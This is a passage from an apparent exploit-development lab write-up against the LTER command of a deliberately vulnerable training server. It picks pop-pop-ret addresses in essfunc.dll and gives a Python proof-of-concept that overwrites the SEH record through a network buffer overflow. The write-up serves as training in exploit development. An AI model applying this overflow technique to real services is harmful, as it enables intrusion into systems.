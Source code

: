 ![](/assets/img/LTER/6.png)

##### It seems as essfunc.dll may help once again.

###### Listing all PPR addresses within essfunc.dll.

![](/assets/img/LTER/7.png)

##### Nice! Now we can select the second or third address to use in order to overwrite the SEH value, as these are ascii printable.

###### PoC code:

```term
import socket, sys, struct

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "C" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)
```